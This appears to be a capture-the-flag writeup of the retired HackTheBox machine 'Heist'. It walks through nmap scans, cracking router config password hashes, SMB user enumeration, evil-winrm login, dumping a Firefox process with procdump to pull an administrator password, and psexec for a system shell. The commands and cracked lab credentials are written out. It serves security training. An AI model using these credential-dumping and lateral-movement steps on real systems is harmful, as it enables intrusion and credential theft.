 ```yaml
---
layout: default
title : muzec - Heist Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/124781906-b359bf80-df3b-11eb-8b3f-5ce7a3a02b96.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Wed Jul  7 08:15:43 2021 as: nmap -sC -sV -oA nmap 10.10.10.149
Nmap scan report for 10.10.10.149
Host is up (0.51s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3h00m54s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-07T10:17:59
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul  7 08:17:41 2021 -- 1 IP address (1 host up) scanned in 118.25 seconds
```

Another day another HackTheBox machine so we have our Nmap scan result but before going deep let try to scan if we have `winrm port` open.

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/retired/10.10.10.149]
└─$ nmap -sV -sC -p 5985 10.10.10.149
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-07 13:11 WAT
Nmap scan report for heist.htb (10.10.10.149)
Host is up (0.56s latency).

PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.52 seconds
```

Seems we have it open now let start our enumeration on SMB first.

![image](https://user-images.githubusercontent.com/69868171/124785621-e94c7300-df3e-11eb-982b-71471f33da18.png)

We have no anonymous access to SMB now let hit HTTP.

![image](https://user-images.githubusercontent.com/69868171/124787841-ba370100-df40-11eb-88a3-aff93f501ff6.png)

Trying some default credentials i got no luck also maybe some SQL injection payloads got nothing but we still have `Login as guest` let try it.

![image](https://user-images.githubusercontent.com/69868171/124788246-1732b700-df41-11eb-8bfe-460bfd4853dc.png)

Issues comment ground seems cool also a user `hazard` attach a file let try and check it out.

![image](https://user-images.githubusercontent.com/69868171/124789516-44cc3000-df42-11eb-8e6a-0a794943322d.png)

We have some hash passwords that belong to `hazard` i think now let try cracking all.

![image](https://user-images.githubusercontent.com/69868171/124790258-ebb0cc00-df42-11eb-8901-9de38166f066.png)

The website i use in cracking it `https://www.ifm.net.nz/cookbooks/passwordcracker.html`

```
0242114B0E143F015F5D1E161713 - $uperP@ssword
02375012182C1A1D751618034F36415408 - Q4)sJu\Y8qz*A3?d
```
One more hash to go i use john the ripper to crack that.

![image](https://user-images.githubusercontent.com/69868171/124790893-772a5d00-df43-11eb-8d82-8e2608bf2f05.png)

```
stealth1agent
```

Now i think we have 3 users and 3 passwords.

USERNAMES;

```
rout3r
hazard
admin
```

PASSWORDS;

```
$uperP@ssword
Q4)sJu\Y8qz*A3?d
stealth1agent
```

Which have try using on the login page form but i got no luck now time to go back to SMB maybe we can have access to the SMB trying different combination with the credentials i was able to list some shares with `hazard:stealth1agent` .

![image](https://user-images.githubusercontent.com/69868171/124792800-40eddd00-df45-11eb-957e-14777631994a.png)

Now let use `lookupsid.py` from `impacket` to enumerate more users.

`lookupsid.py hazard:stealth1agent@heist.htb`

![image](https://user-images.githubusercontent.com/69868171/124793743-35e77c80-df46-11eb-979c-b29d44a5120b.png)

We have more users now but to cut the story short i was able to get in with `chase:Q4)sJu\Y8qz*A3?d` with `winrm` using `evil-winrm ` just the way i was able to get `hazard` password.

`evil-winrm -i heist.htb -u chase -p 'Q4)sJu\Y8qz*A3?d'`

![image](https://user-images.githubusercontent.com/69868171/124794703-32a0c080-df47-11eb-95b5-f5c40051dc50.png)

Going to the user `chase` desktop and we have user.txt now we just need to owned the system now.

### System / Administrator

I spend time enumerating the box so i notice a  `firefox` process running which is strange.

![image](https://user-images.githubusercontent.com/69868171/124795624-21a47f00-df48-11eb-811a-3189e64bf6aa.png)

So i uploaded `procdump.exe` and dumped one of these firefox processes.

```
upload procdump64.exe
./procdump64.exe -accepteula
./procdump64.exe -ma 2528
```

Then I uploaded strings.exe.

```
upload strings64.exe
./strings64.exe -accepteula
```

![image](https://user-images.githubusercontent.com/69868171/124797158-e014d380-df49-11eb-8f3a-ce6a1f351c9f.png)

Now using `strings64.exe` to view the firefox dump file.

`./strings64.exe firefox.exe_210707_175550.dmp` 

![image](https://user-images.githubusercontent.com/69868171/124797517-3e41b680-df4a-11eb-955c-23910da625a7.png)

Searching for password and i got the admin credentials `4dD!5}x/re8]FBuZ` nice time to use `psexec.py` to log in with the admin credentials we found in the firefox dump.

`psexec.py administrator@10.10.10.149`

![image](https://user-images.githubusercontent.com/69868171/124798179-fa02e600-df4a-11eb-980a-2fac56b95d1e.png)

We are in and done let get the last flag.

![image](https://user-images.githubusercontent.com/69868171/124798359-29b1ee00-df4b-11eb-8225-e31ef23bd653.png)

And we are system.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
